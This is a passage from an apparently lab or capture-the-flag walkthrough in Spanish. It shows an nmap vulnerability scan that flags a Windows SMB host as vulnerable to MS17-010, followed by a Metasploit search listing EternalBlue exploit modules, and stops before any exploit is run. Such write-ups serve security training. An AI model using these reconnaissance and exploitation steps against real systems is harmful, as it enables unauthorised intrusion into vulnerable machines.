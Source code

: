 ```shell
nmap -p 445 -script vuln -Pn -n 10.10.151.180                          
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-04 19:54 -03
Nmap scan report for 10.10.151.180
Host is up (0.37s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 22.64 seconds
```

Con esto comenzamos nuestro ataque mediante **metasploit**.

## Phase 2: Metasploitation
La forma mas rapida de ejecutar el exploit sugerido es mediante metasploit, para esto buscaremos el modulo apropiado (MS17-010):


```shell
msf6 > search ms17-010

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description        
   -  ----                                           ---------------  ----     -----  -----------        
   0  exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_eternalblue_win8  2017-03-14       average  No     MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption for Win8+
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   3  auxiliary/admin/smb/ms17_010_command           2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   4  auxiliary/scanner/smb/smb_ms17_010                              normal   No     MS17-010 SMB RCE Detection
   5  exploit/windows/smb/smb_doublepulsar_rce       2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


Interact with a module by name or index. For example info 5, use 5 or use exploit/windows/smb/smb_doublepulsar_rce
```